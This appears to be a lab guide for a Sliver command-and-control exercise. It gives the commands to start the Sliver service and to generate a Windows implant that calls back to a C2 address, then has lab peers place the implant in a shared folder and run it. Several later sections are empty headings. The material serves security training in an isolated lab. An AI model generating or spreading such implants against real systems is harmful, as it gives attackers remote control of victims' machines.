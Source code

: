 # Sliver Botnet Instructions

## Accessing your Servers
You have 2 servers in your lab:
* **sliver-server**: Ubuntu server with the role of command and control of the botnet.
* **sliver-implant**: A test victim server used for installing implants.

>! **Warning:** When connecting to servers, it is best to open this in an incognito browser to avoid caching the credentials used to connect. Only connect to one of the servers at a time, and then, only in incognito mode.

![image](https://user-images.githubusercontent.com/50633591/234986130-619d61f1-1a5b-47e7-9efa-555311ccb725.png)

### Starting Sliver
```
sudo systemctl start sliver
```

### Generating the Implant
```
generate --mtls 10.1.1.20 --os windows --arch amd64 --format exe
```

When you create your implants, move them to the `/srv/sliver` folder on the Sliver server and change the permissions to allow execution.
```
cp ./TEST_IMPLANT.exe /srv/sliver/
sudo chmod 777 /srv/sliver/TEST_IMPLANT.exe
```

Then, they can be accessed by other Windows servers in the lab. To have someone else run your implant, send them the IP address of the Sliver Server (e.g. 10.1.0.XX). Then, they can run your implant by going to their implant server, and opening explorer. From explorer, they can double click on the executable in the Sliver folder.

![image](https://user-images.githubusercontent.com/50633591/234988380-81fc9370-148b-4c2c-a816-7b1b14ba47de.png)

### Start the Botnet Server


### Open your Victim Machine



## Sharing your Implants

